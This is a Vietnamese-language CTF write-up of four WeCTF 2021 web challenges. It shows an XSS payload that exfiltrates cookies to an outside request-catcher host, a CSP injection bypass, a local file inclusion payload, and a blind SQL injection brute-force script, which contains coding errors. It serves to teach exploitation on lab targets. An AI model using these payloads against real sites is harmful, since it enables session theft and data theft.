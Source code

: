 # WECTF 2021 Writeup

## Cache

![](https://i.imgur.com/oRJ8QGG.png)

Truy cập vào `/flag` thì hiện `Only admin can view this!`

Kiểm tra file trong folder `handout.zip` thấy file Dockerfile.test thì chall này giấu flag ở env của python.

```Dockerfile
FROM python:3.8.10-alpine

WORKDIR /usr/src/app
RUN pip install django gunicorn
COPY . .
ENV FLAG "we{testflag}"
ENV ADMIN_TOKEN 123
CMD ["gunicorn", "cache.wsgi", "-b", "0.0.0.0:80"]
```

Có thêm cả ADMIN_TOKEN thì có vẻ nó để xác thực để lấy flag.

Check file urls.py thấy có xuất hiện bước xác thực cookies là `ADMIN_TOKEN` để có thể xem đc flag.

```python
def flag(request: HttpRequest):
    token = request.COOKIES.get("token")
    print(token, ADMIN_TOKEN)
    if not token or token != ADMIN_TOKEN:
        return HttpResponse("Only admin can view this!")
    return HttpResponse(FLAG)
```

Truy cập vào trang web uv.ctf.so để lấy cookies send script qua XSS:

```html
<script>fetch(`https://hyp.requestcatcher.com?c=${document.cookie}`)</script>
```

Sử dụng cookie đó chèn vào web và truy cập `/flag` để lấy flag

## CSP 1

Check file `app.py` ta thấy khi submit `/write` thì token được gen ngẫu nhiên

![](https://i.imgur.com/K9rTQxp.png)

```python
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " f"'self' {filter_url(img_urls)}; script-src 'none'; ""style-src 'self'; base-uri 'self'; form-action 'self' "
```

Ta sẽ inject qua `{filter_url(img_urls)}` 

Thử send script:

```html
<img src="https://hyp.requestcatcher.com/c;script-src">
```

![](https://i.imgur.com/RvzMtzT.png)

Thì ta đã bypass đc CSP bài này khá đơn giản

Send script:

```html
<img src="http://127.0.0.1:5500;script-src"/>
<img src="http://127.0.0.1:5500/bao-cao/script.js"/>
<script src="http://127.0.0.1:5500/bao-cao/script.js"></script>
```

Yeah ta đã lấy đc admin cookies

## Include

Description: ` yet another buggy PHP website. Flag is at /flag.txt on filesystem Host 1 (San Francisco): include.sf.ctf.so Host 2 (Los Angeles): include.la.ctf.so Host 3 (New York): include.ny.ctf.so Host 4 (Singapore): include.sg.ctf.so`

Thì chắc chắn flag nằm trong `/flag.txt`

```php
<?php
show_source(__FILE__);
@include $_GET["🤯"];
```

include path file bị lỗi ta sẽ lấy file text qua 🤯

URL encode cái 🤯 ta thu đc được `%f0%9f%a4%af`

Vì vậy payload là: `/?%f0%9f%a4%af=%2fflag.txt`

## Phish 

Description: 

```
Shou is so dumb that he leaks his password (flag) to a phishing website.

Note: The flag contains underscore

Host 1 (San Francisco): phish.sf.ctf.so
Host 2 (Los Angeles): phish.la.ctf.so
Host 3 (New York): phish.ny.ctf.so
Host 4 (Singapore): phish.sg.ctf.so
```

Check source code file main.py ta thấy dữ liệu được gửi đến server rồi từ đó vào database:

```python

@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please 
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js" 
        charset="utf-8"></script> """
```

Điểm ta chú ý nhất là 

```python
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"

```

Có vẻ như đoạn code này dính SQL injection.

Send thử payload

```python
password = "abc"
username = "(SELECT * FROM xyz)') -- "
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
print(sql)
    
#   INSERT INTO `user`(password, username) VALUES ('abc', '(SELECT * FROM xyz)') -- ')
```

Nó cho phép ta SELECT cột từ các bảng hoặc các hành động khác.

Mình sẽ khai thác lấy các kí tự trong mật khẩu bằng cách ép buộc thông qua truy vấn SQL như này:

```sql
SELECT password FROM user WHERE username = "shou" AND password LIKE "%---HERE---%"
```


Chúng tôi biết rằng có một shou tên người dùng với mật khẩu là lá cờ
Do đó, chúng tôi có thể kiểm tra xem một ký tự có trong mật khẩu hay không bằng cách thêm một điều kiện mà mật khẩu LIKE '% --- HERE ---%'
Điều này hoạt động bằng cách sử dụng điều kiện LIKE, cùng với ký tự đại diện nhiều ký tự,%

Ta biết rằng có một người tên là shou tên người dùng với password là flag.

Do đó, ta có thể kiểm tra xem một kí tự có trong mật khẩu hay không bằng cách thêm một điều kiện mà `password GLOB "%---HERE---%"`

`LIKE` không thể check được chữ hoa chữ thường vì vậy ở đây t sử dụng `GLOB`

Để thực hiện điều đó ta sẽ inject như này:

* username: `hip`

* password: `a',(SELECT password FROM user WHERE username = "shou" AND password GLOB "%{i}%")); --`

Tiếp theo là brute password

Script:

```python
import request, string

u = 'http://localhost:4009/add'
s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
flag = 'we{'
result = ''

for i in s:
    body = {'username':'hip', 'password':f'a\',(SELECT password FROM user WHERE username = \"shou\" AND password LIKE \"%{i}%\")); --'}
    s = request.Session()
    r = s.post(u, data=body)
    if 'UNIQUE' in r.text: result += i
while flag[-1] != '}':
    for i in foundchars:
        body = {'username':'abc', 'password':f'a\',(SELECT password FROM user WHERE username = \"shou\" AND password GLOB \"{flag+i}*\"));--'}
        s = request.Session()
        r = s.post(u, data=body)
        if 'UNIQUE' in r.text: flag += i
        print(flag)
```

```python
# result: we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P
```
